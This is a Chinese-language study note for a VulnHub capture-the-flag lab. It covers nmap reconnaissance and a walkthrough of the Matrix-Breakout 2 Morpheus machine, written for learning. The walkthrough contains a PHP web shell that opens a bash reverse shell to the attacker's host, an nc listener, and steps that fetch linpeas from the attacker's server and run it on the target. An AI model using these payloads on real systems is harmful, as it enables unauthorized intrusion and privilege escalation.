 # vulnhub靶场学习

##  #0 Linux基础知识查漏补缺

#### 1> mv命令修改文件名

```bash
mv 旧文件名 新文件名
```

#### 2> which命令搜索命令位于哪个文件夹下

```
which linpeas
```

输出信息：

```
/usr/bin/linpeas
```

#### 3> nmap信息收集

##### 发现靶机，新出现的条目即是靶机

```bash
sudo nmap -sn 192.168.xxx.0/24
```

##### 简单端口扫描，输出靶机开启的端口  

​	-sT使用tcp协议 

​	--min-rate以最小10000速率扫描 

​	-oA nmapscan/ports以全格式输出保存在ports文件

```bash
sudo nmap -sT --min-rate 10000 -p- 靶机ip -oA nmapscan/ports
```

##### tcp扫描

​	-sV检测服务版本

​	-sC扫描时使用默认脚本

​	-O识别操作系统

​	-p[端口],[端口]...指定端口扫描服务

```bash
sudo nmap -sT -sV -sC -O -p21,22,80 靶机ip -oA nmapscan/detail
```

##### udp扫描

​	-sU使用udp协议

​	--top-ports 20对top20的端口进行扫描

```bash
sudo nmap -sU --top-ports 20 靶机ip -oA nmapscan/udp
```

##### 漏洞脚本扫描

```bash
sudo nmap --script=vuln -p21,22,80  靶机ip -oA nmapscan/vuln
```



## #1 MATRIX-BREAKOUT: 2 MORPHEUS

### 原地址

https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/

### 知识点

#### 1> nc+php反弹shell

靶机添加载体.php文件，写入

```php
<?php system("bash -i >& /dev/tcp/你kali的ip/4444 0>&1");?>
```

之后在kali输入接受反弹

```bash
nc -lvvp 4444
```

#### 2> 字符转含特殊字符可能上传不上去，这是需要将其转换成url编码，再上传试试

#### 3> 使用dirsearch搜索文件

```bash
dirsearch  -u 靶机ip -x 403,401
```

#### 4> 使用gobuster搜索文件

```bash
gobuster dir -u http://靶机ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```

#### 5> 使用bp抓包时不必一直开启intercept，在history中会显示所有的包

#### 6> 生成更好的tty shell

反弹的shell中输入

```bash
python3 -c 'import pty;pty.spawn("bin/bash")'
```

#### 7> 使用wget下载靶机文件

例

```bash
wget http://192.168.0.127/.cypher-neo/png
```

#### 8> 使用exiftool查看图片元信息

显示图片大小，分辨率，文件格式，色深等

```bash
exiftool cypher-neo.png
```

#### 9> 使用steghide提取隐藏信息

```bash
steghide extract -sf 文件名
```

对于有密码加密的需要提供密码

#### 10> 上传并利用linpeas辅助提权

首先开启http服务

```bash
python3 -m http.server
```

在靶机shell中输入，上传linpeas.sh

```bash
cd /tmp
wget http://本机地址:8000/linpeas.sh
```

添加可执行权限

```
chmod +x linpeas.sh
```

启动linpeas

```
./linpeas.sh
```

